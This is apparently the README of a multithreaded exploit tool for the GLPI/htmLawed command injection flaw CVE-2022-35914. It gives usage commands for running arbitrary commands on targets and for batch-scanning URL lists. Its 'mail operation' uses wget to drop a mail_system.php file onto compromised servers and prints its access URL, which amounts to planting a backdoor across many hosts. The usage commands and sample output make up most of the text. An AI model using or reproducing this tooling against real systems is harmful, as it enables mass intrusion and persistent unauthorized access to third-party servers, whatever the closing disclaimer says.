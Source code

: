 # CVE-2022-35914 增强版漏洞检测工具

## 概述

这是一个基于CVE-2022-35914漏洞的增强版检测工具，支持批量检测、mail操作和多线程处理。该工具利用GLPI系统中的htmLawed第三方库漏洞进行命令注入。

## 功能特性

- ✅ **单个URL检测**: 检测指定URL是否存在CVE-2022-35914漏洞
- ✅ **批量漏洞检测**: 支持从文件读取多个URL进行批量检测
- ✅ **Mail操作**: 自动检测mail目录并下载mail_system.php
- ✅ **批量Mail操作**: 对多个URL执行mail检测和下载操作
- ✅ **多线程支持**: 支持多线程并发处理，提高效率
- ✅ **结果输出**: 支持将检测结果保存到文件
- ✅ **文件清理**: 自动删除现有文件，确保下载成功

## 安装依赖

```bash
pip install -r requirements.txt
```

依赖包：
- beautifulsoup4
- requests
- argparse

## 使用方法

### 1. 单个URL检测

```bash
# 基本检测
python CVE-2022-35914-enhanced.py -u http://target.com

# 执行自定义命令
python CVE-2022-35914-enhanced.py -u http://target.com -c "whoami"

# 仅检查漏洞，不执行命令
python CVE-2022-35914-enhanced.py -u http://target.com --check
```

### 2. 批量漏洞检测

```bash
# 使用默认10个线程
python CVE-2022-35914-enhanced.py -l urls.txt -o results.txt

# 使用20个线程
python CVE-2022-35914-enhanced.py -l urls.txt -o results.txt -t 20

# 使用5个线程（较保守）
python CVE-2022-35914-enhanced.py -l urls.txt -o results.txt -t 5
```

### 3. Mail操作（单个URL）

```bash
python CVE-2022-35914-enhanced.py -m http://target.com -o mail_result.txt
```

**Mail操作流程：**
1. 检测目标是否存在CVE-2022-35914漏洞
2. 执行 `ls ~` 命令检查是否存在mail目录
3. 如果发现mail目录，删除现有的mail_system.php文件
4. 下载 `mail_system.php` 到当前目录
5. 生成访问地址：`目标URL/vendor/htmlawed/htmlawed/mail_system.php`

### 4. 批量Mail操作

```bash
# 使用默认10个线程
python CVE-2022-35914-enhanced.py -lm urls.txt -o batch_mail_results.txt

# 使用5个线程（较保守）
python CVE-2022-35914-enhanced.py -lm urls.txt -o batch_mail_results.txt -t 5
```

## 参数说明

### 新增参数
- `-l URL_FILE`: 批量检测URL文件路径
- `-m TARGET_URL`: 对指定URL执行mail检测和下载操作
- `-lm BATCH_FILE`: 批量执行mail检测和下载操作
- `-o OUTPUT_FILE`: 输出结果到指定文件
- `-t THREADS`: 多线程数量 (默认: 10)

### 原有参数（保持兼容）
- `-u URL`: 单个URL测试
- `-c CMD`: 要执行的命令（默认: id）
- `-f HOOK`: PHP hook函数（默认: exec）
- `--check`: 仅检查漏洞，不执行命令
- `--user-agent`: 自定义User-Agent

## 输出示例

### 批量检测输出
```
[*] 开始批量检测漏洞...
[*] 使用 10 个线程
[*] 共发现 5 个URL需要检测
[+] 发现漏洞: http://example1.com
[-] 无漏洞: http://example2.com
...

[*] 检测完成! 发现 2 个存在漏洞的URL
[+] 存在漏洞的URL列表:
  - http://example1.com
  - https://target1.example.com
```

### Mail操作输出
```
[*] 开始对 http://target.com 执行mail操作...
[+] 目标存在漏洞，开始执行命令...
[+] 发现mail目录，开始下载mail_system.php...
[*] 删除现有mail_system.php文件...
[+] 下载命令已执行
[+] 访问地址: http://target.com/vendor/htmlawed/htmlawed/mail_system.php
```

## 文件格式

### URL文件格式 (urls.txt)
```
http://example1.com
http://example2.com
https://target1.example.com
https://target2.example.com
```

### 输出文件格式
- **漏洞检测结果**: 每行一个存在漏洞的URL
- **Mail操作结果**: 包含目标URL、访问地址和操作详情

## 技术细节

### 漏洞检测原理
1. 访问 `/vendor/htmlawed/htmlawed/htmLawedTest.php` 端点
2. 检查响应状态码和页面标题
3. 验证是否包含"htmLawed"标识

### Mail操作原理
1. 首先验证目标存在CVE-2022-35914漏洞
2. 执行 `ls ~` 命令检查用户主目录
3. 如果输出中包含"mail"字符串，认为存在mail目录
4. 删除现有的mail_system.php文件（如果存在）
5. 使用wget下载新的mail_system.php文件
6. 生成访问地址供后续使用

### 多线程实现
- 使用 `ThreadPoolExecutor` 管理线程池
- 线程安全的锁机制确保数据一致性
- 支持自定义线程数量，平衡效率和资源消耗

## 注意事项

1. **授权使用**: 仅在授权的测试环境中使用此工具
2. **目标验证**: 确保目标服务器存在CVE-2022-35914漏洞
3. **线程控制**: 根据目标服务器性能调整线程数量，避免造成过大压力
4. **网络安全**: 所有网络请求都禁用了SSL验证，请谨慎使用
5. **文件覆盖**: 输出文件会覆盖已存在的同名文件
6. **Mail操作**: wget命令通常无回显，脚本默认认为下载成功
7. **文件清理**: 自动删除现有文件，确保下载的文件名正确

## 性能优化

- **多线程并发**: 大幅提升批量操作效率
- **连接复用**: 使用Session保持连接
- **超时控制**: 设置合理的请求超时时间
- **错误处理**: 完善的异常处理机制

## 版本历史

- **v1.0**: 基础CVE-2022-35914检测功能
- **v2.0**: 添加批量检测和mail操作功能
- **v3.0**: 添加多线程支持和文件清理功能

## 免责声明

本工具仅用于安全研究和授权的渗透测试。使用者需要确保：
- 获得目标系统的明确授权
- 遵守当地法律法规
- 承担使用本工具的所有责任

作者不对使用本工具造成的任何损失或法律后果承担责任。